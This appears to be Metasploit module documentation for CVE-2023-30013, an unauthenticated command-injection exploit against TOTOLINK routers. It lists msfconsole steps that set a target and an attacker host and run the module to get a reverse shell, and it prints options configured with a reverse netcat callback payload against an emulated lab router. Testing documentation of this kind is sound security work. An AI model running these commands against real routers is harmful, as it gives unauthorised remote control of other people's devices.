 * You are now ready to test the module using the emulated router hardware on IP address 192.168.0.1.

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/totolink_unauth_rce_cve_2023_30013`
- [x] `set rhosts <ip-target>`
- [x] `set rport <port>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Unix Command, 1=Linux Dropper>`
- [x] `exploit`

you should get a `reverse shell` or `Meterpreter`

```
msf exploit(linux/http/totolink_unauth_rce_cve_2023_30013) > options

Module options (exploit/linux/http/totolink_unauth_rce_cve_2023_30013):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.0.1      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using
                                       -metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local
                                        machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  1981             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat_gaping):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command
```
## Options
### SLEEP
Sleep time in seconds to test blind command injection. Default set is to 3 seconds.
